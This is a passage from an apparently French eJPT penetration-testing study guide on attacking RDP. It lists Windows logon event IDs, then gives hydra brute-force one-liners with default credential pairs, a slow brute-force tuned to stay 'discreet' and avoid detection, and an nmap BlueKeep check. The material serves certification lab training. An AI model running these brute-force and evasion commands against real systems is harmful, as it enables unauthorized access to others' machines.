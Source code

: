 ### Détection et logs RDP
```bash
# RDP génère beaucoup de logs Windows
# Event ID 4624 : Connexion réussie
# Event ID 4625 : Connexion échouée
# Event ID 4634 : Déconnexion

# Être discret avec RDP
hydra -l administrator -P short_passwords.txt -t 1 -w 10 -f rdp://target
```

### One-liners RDP utiles
```bash
# Test rapide credentials courants
hydra -L <(echo -e "administrator\nadmin\nguest") -P <(echo -e "password\nPassword123\nadmin") -t 2 -f rdp://target

# Scan + brute force en une fois
nmap -p3389 target && hydra -l administrator -p password -t 1 rdp://target

# Test BlueKeep rapide
nmap --script rdp-vuln* target | grep -i "vulnerable\|VULNERABLE"
```

**🎯 Conseil final eJPT :** RDP dans l'eJPT suit souvent ce pattern : découverte → test credentials faibles (admin:password, administrator:Password123) → si échec, brute force prudent → connexion. BlueKeep est rare mais dévastateur si présent !